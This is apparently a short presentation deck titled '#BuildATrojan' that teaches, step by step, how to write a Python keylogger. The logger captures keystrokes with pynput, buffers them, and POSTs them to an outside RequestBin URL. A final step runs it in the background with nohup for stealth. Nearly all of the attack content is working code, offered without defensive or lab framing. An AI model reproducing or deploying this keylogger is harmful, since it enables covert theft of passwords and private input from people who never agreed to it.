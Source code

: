 class: center, middle

# #BuildATrojan

---

# Here's the Agenda

1. History
2. The virus
3. Building one

---
# History

.center[![Trojan](https://allthatsinteresting.com/wordpress/wp-content/uploads/2021/12/still-from-troy.png)]

---
class: center, middle
# Trojan Virus

.center[![Trojan](https://autodesk.blogs.com/.a/6a00d8341bfd0c53ef01b8d29a32e9970c-pi)]

---
class: center, middle
# Building a Trojan

---
### Step 1: Lets print all keystrokes to the console


```python
from pynput.keyboard import Key, Listener

def on_press(key):
    print(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 2: Lets print a line to the console when a key is pressed

```python
from pynput.keyboard import Listener
keys = ''
def send_keys():
    global keys
    print(keys)
    keys = ''

def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---

### Step 3: Lets create a request bin

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 
---
### Step 4: Sending data to the bin
```python
from pynput.keyboard import Key, Listener
import requests
keys = ''
request_bin_url = 'https://{request bin url}'
def send_keys():
    global keys
    print(keys)
    requests.post(request_bin_url, data=keys)
    keys = ''
def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 5: Lets make it a bit more stealthy

```bash
nohup python3 send_line.py &
```

---
class: center, middle

# Any questions?